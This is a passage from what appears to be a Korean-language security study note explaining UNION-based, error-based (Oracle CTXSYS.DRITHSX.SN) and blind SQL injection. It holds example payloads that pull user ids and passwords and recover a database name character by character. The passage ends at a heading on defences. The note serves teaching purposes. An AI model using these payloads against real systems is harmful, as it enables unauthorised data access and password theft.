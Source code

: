 ```sql
SELECT * FROM member WHERE id = 'qwer'
UNION SELECT null, id, pw FROM member;
```

## 2. Error Based SQL Injection

- 데이터베이스의 문법에 맞지 않는 쿼리문 입력 시 반환되는 에러가 정보 획득이 가능한 에러 메시지를 반환할 때 해당 에러 메시지를 분석해서 데이터를 추출하는 방식
- 단순 에러 : 단순히 문법이 잘못되었다는 에러 정보
- 정보 획득이 가능한 에러 : 무엇이 잘못되었는지에 대한 에러 정보
- 정보 획득이 가능한 에러를 유발하는 함수를 통해 에러를 발생시키고 데이터를 추출한다.

![image](https://github.com/user-attachments/assets/9687b106-fcdf-46b2-8fb2-ae97f9be9f66)


### EX) `CTXSYS.DRITHSX.SN` 함수를 활용한 공격

```sql
SELECT * FROM member WHERE id = 'qwer'
AND 1=(SELECT CTXSYS.DRITHSX.SN(password) FROM member WHERE rownum = 1);
```

- `CTXSYS.DRITHSX.SN()` 함수는 **존재하지 않는 값**을 입력하면 **해당 값이 포함된 에러 메시지를 반환**
- 따라서 `password` 컬럼에 저장된 값이 그대로 에러 메시지에 출력될 수 있음

```sql
ORA-00932: inconsistent datatypes: expected - got '1234'
```

## 3. Blind SQL Injection

- 에러 메시지가 표시되지 않더라도 참과 거짓 결과를 비교하여 데이터를 유출하는 공격 기법
- 웹 페이지의 응답 차이를 분석해서 조금씩 정보를 빼내는 방식

### 공격 과정

- 참과 거짓 결과 차이 확인
- 조건문의 결과에 따라 응답이 다르다면 공격 가능하다는 뜻

```sql
SELECT * FROM member WHERE id = 'qwer' AND 1=1;  -- (항상 참), 정상적으로 데이터 반환됨
SELECT * FROM member WHERE id = 'qwer' AND 1=2;  -- (항상 거짓), 데이터 반환되지 않음
```

- 참/거짓 조건을 이용해서 실제 데이터를 유출, 한 번에 데이터를 얻을 수 없기 때문에, **SUBSTRING() 함수를 이용해 문자 하나씩 확인**
- 아래는 데이터 베이스 이름을 알아내는 과정

```sql
SELECT * FROM member WHERE id = 'qwer' AND SUBSTRING((SELECT database()), 1, 1) = 'm';
SELECT * FROM member WHERE id = 'qwer' AND SUBSTRING((SELECT database()), 2, 1) = 'y';
SELECT * FROM member WHERE id = 'qwer' AND SUBSTRING((SELECT database()), 3, 1) = 'd';
SELECT * FROM member WHERE id = 'qwer' AND SUBSTRING((SELECT database()), 4, 1) = 'b';
```

- 위와 같이 데이터 베이스 이름 → 테이블 개수 → 테이블 이름 → 테이블 컬럼 개수 → 컬럼 이름 → 비밀번호 순서로 데이터를 추출하여 비밀번호를 추출

# SQL Injection 방어 방법
